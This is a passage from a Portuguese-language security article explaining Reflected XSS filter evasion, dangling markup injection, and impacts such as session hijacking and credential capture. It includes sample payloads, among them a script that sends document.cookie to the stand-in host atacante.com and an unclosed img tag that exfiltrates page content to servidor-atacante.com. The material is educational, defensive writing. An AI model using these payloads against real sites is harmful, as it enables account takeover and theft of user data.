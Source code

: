 ### 4.2. Manipulação de Sintaxe e Eventos

- **Tags Malformadas**: Os navegadores são projetados para serem tolerantes a erros de sintaxe HTML. Os atacantes exploram essa flexibilidade para construir tags que confundem os filtros, mas que ainda são renderizadas de forma a executar o *script*. Um exemplo clássico é `<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>`, onde o *parser* do navegador pode "corrigir" a tag de imagem malformada de uma maneira que expõe a tag de *script* interna.
- **Eventos Não Convencionais**: Enquanto a maioria dos WAFs bloqueia eventos óbvios como `onclick` e `onerror`, o DOM oferece uma vasta gama de outros manipuladores de eventos que podem ser usados como vetores. Eventos como `onmouseover`, `onfocus`, `onblur`, `oncopy`, `ondrag`, e muitos outros, são frequentemente negligenciados pelas regras de filtragem, oferecendo um caminho alternativo para a execução de código.
- **Caracteres de Controle**: A inserção de caracteres de controle, como tabulações (`\t`), novas linhas (`\n`) ou até mesmo caracteres nulos (`%00`), pode quebrar palavras-chave que os filtros procuram. Por exemplo, `jav\nascript:alert(1)` pode contornar um filtro que busca pela *string* literal `javascript:`.

### 4.3. Técnica Avançada: Dangling Markup Injection

Em cenários onde a execução de *script* é efetivamente bloqueada por uma *Content Security Policy* (CSP), mas a injeção de HTML ainda é possível, os atacantes podem recorrer à "*Dangling Markup Injection*" para exfiltrar dados sensíveis. Esta técnica não executa *scripts*, mas abusa do processo de *parsing* do navegador.

O atacante injeta uma tag com um atributo de URL que não é fechado, como `<img src='//servidor-atacante.com/log?data=`. O navegador, ao tentar completar o atributo `src`, consome todo o HTML subsequente na página até encontrar a próxima aspa simples. Se esse HTML contiver informações confidenciais, como um *token* anti-CSRF oculto em um formulário, esses dados serão anexados à URL e enviados como uma requisição GET para o servidor do atacante.

A complexidade e variedade dessas técnicas de evasão revelam uma verdade fundamental na segurança de aplicações: a defesa baseada em listas de bloqueio é uma estratégia reativa e, em última análise, fadada ao fracasso. Para cada assinatura de ataque que um WAF aprende a bloquear, existem inúmeras maneiras de ofuscar ou modificar o *payload* para contorná-la. Esta corrida armamentista contínua demonstra que a segurança robusta não pode depender da tentativa de prever e bloquear todas as formas de "mal". Em vez disso, deve focar em definir e impor estritamente o que é "bom" e permitido, uma filosofia que fundamenta as estratégias de mitigação mais eficazes discutidas mais adiante.

## Seção 5: Impacto Real e Cenários de Exploração

O impacto de um ataque de *Reflected XSS* bem-sucedido pode variar de um simples incômodo a um comprometimento total da conta e da segurança do usuário. A execução de um *script* arbitrário no contexto de um domínio confiável concede ao atacante um poder significativo.

### 5.1. Roubo de Credenciais de Sessão (Session Hijacking)

Este é o cenário de ataque mais clássico e perigoso associado ao XSS. O objetivo do atacante é roubar o *cookie* de sessão da vítima, que o identifica como um usuário autenticado na aplicação. O *payload* injetado normalmente contém um *script* que acessa `document.cookie` e envia o valor para um servidor controlado pelo atacante. Um exemplo de *payload* para este fim é: `<script>new Image().src="https://atacante.com/log?cookie="+document.cookie</script>`. Uma vez que o atacante possui o *cookie* de sessão, ele pode inseri-lo em seu próprio navegador e se passar pela vítima, obtendo acesso total à sua conta e a todos os seus dados.

### 5.2. Captura de Credenciais e Dados Sensíveis

Além do roubo de *cookies*, o XSS pode ser usado para capturar credenciais de *login* diretamente. O atacante pode injetar um formulário de *login* falso que se parece com o original, enganando o usuário para que ele insira seu nome de usuário e senha. Esses dados são então enviados para o servidor do atacante em vez de para a aplicação legítima. Outra técnica é o uso de *keyloggers* baseados em JavaScript, que registram todas as teclas digitadas pelo usuário na página vulnerável e as enviam periodicamente para o atacante.
